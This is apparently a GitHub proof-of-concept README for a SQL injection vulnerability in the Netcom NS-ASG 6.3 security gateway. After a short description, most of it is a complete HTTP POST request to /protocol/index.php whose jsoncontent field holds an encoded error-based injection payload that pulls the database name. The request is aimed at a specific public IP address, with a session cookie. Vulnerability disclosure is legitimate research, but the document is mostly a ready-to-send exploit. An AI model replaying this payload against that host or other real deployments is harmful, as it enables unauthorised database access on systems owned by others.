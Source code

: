 # SQL injection POC

There is a SQL injection vulnerability in the Netcom NS-ASG application security gateway. Attackers exploit vulnerabilities to cause harm to servers.
[official website](https://www.netentsec.com/)
version:NS-ASG 6.3
Vulnerability points：/protocol/firewall/uploadfirewall.php analyse as below: As shown below, the $FireWallId database value is accepted by messagecontent and then substituted into the database statement.

![image](https://github.com/gb111d/ns-asg_poc/assets/148308306/a9468bf8-1568-4afa-a94e-57d514310a50)

Access through https://106.37.206.12/
There is no validation during the execution of SQL injection.

Poc：
POST /protocol/index.php HTTP/1.1
Content-Length: 377
Host: 106.37.206.12
Cookie: PHPSESSID=bfd2e9f9df564de5860117a93ecd82de
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/110.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers
Content-Type: application/x-www-form-urlencoded
Referer: https://106.37.206.12/protocol/index.php
Connection: close

jsoncontent=%7B%22protocolType%22%3A%22uploadfirewall%22%2C%22messagecontent%22%3A%5B%221%20AND%20%28SELECT%205347%20FROM%28SELECT%20COUNT%28%2A%29%2CCONCAT%280x716a716b71%2C%28MID%28%28IFNULL%28CAST%28DATABASE%28%29%20AS%20NCHAR%29%2C0x20%29%29%2C1%2C54%29%29%2C0x71707a6b71%2CFLOOR%28RAND%280%29%2A2%29%29x%20FROM%20INFORMATION_SCHEMA.PLUGINS%20GROUP%20BY%20x%29a%29%22%5D%7D

Send request with the payload above

![image](https://github.com/gb111d/ns-asg_poc/assets/148308306/b1c46f15-a899-4d81-9bf3-a3999ee2d28e)
